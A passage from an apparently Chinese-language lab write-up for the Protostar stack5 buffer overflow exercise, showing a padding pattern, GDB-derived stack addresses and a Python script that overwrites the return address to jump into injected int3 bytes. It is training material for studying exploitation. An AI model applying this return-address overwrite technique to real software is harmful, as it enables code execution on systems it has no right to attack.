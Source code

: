 <img src=".\stack5-analysis-1.png" style="zoom:67%;" />

我们利用一个长字符串。

```shell
$ cat exp.txt
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

在ret处打断点，运行程序，输入长字符串，查看栈上内容，可以看到栈顶地址为0xbffffd2c，这个位置存储的值/地址在ret后被赋给eip，用0xbffffd2c + 4 = 0Xbffffd30覆写它，这样程序ret后会跳转到0Xbffffd30位置执行其中以及后续存储的指令，也就是攻击脚本中的`payload`。0xbffffd2c之前的部分用对应ASCII码为0x41到0x53的四个重复字母为一组组成的字符串覆写。

<img src=".\stack5-analysis-3.png" style="zoom:80%;" />

先将`payload`设置为int3指令。

```shell
$ cat stack5_trap.py
buffer = ""
for i in range(0x41, 0x54):
	buffer += chr(i) * 4
ret = "\x30\xfd\xff\xbf" #0xbffffd30 esp+4
payload = "\xcc" * 8
print buffer + ret + payload
$ python stack5_trap.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS  # 后接一堆乱码
$ (python stack5_trap.py) | /opt/protostar/bin/stack5
Trace/breakpoint trap
```
